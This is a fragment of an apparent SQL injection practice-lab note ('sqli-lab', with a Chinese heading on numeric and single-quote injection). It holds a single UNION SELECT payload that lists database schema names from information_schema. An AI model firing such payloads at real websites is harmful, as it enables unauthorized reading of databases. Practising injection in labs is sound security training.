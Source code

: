 sqli-lab
数字-单引号
```sql
-1' union select 1,group_concat(schema_name),group_concat(schema_name) from information_schema.schemata--+
```




